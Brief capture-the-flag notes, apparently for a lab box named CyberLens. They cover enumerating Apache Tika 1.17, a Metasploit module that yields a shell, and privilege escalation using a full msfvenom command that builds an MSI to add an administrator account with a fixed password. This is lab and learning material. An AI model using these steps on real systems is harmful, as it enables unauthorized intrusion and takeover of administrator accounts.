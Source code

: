 ### Enumeration
- Apache Tika 1.17
	- https://www.exploit-db.com/exploits/47208
### Metasploit
- `exploit/windows/http/apache_tika_jp2_jscript`
- gain shell as CyberLens user
### PrivEsc
- winpeas > all installers are run as admin
- msfvenom user with admin
	- `msfvenom -p windows/adduser USER=admin PASS='Password123!' -f msi -o notaprivesc.msi`
- execute installer binary
- login as `admin:Password123!`
